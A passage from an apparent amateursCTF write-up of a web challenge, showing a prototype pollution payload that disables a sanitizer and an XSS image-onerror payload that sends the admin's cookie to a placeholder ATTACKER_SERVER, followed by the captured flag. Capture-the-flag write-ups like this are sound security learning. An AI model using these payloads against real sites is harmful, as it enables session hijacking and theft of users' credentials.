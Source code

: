 edit: After speaking with the challenge creator and playing around with the challenge again, it turns out any form of prototype pollution is enough, e.g. sending an empty object will work just fine. Presumably this overwrites the existing object, making `sanitize` undefined so that the if condition doesn't trigger 🤷‍♂️

```js
res.end('{"__proto__": {}}');
```

### Part 3: XSS

You can probably find many payloads to extract the flag, but I went with this one.

```js
<img src=x onerror=document.location='http://ATTACKER_SERVER/?'+document.cookie;>
```

Upon loading, the page will try to display the image `x`. Since that's not a valid `img src`, it will trigger an error and execute some JS to redirect the victim to the attacker server (us) with their cookie attached as a GET parameter.

If we submit the report to the admin and check our `ngrok` output (make sure to do this on the web UI), we'll find our flag 🔥

Flag: `amateursCTF{s@nit1zer_ap1_pr3tty_go0d_but_not_p3rf3ct}`

Side note: I actually forgot to submit the flag, so our team did not solve the challenge 🙃
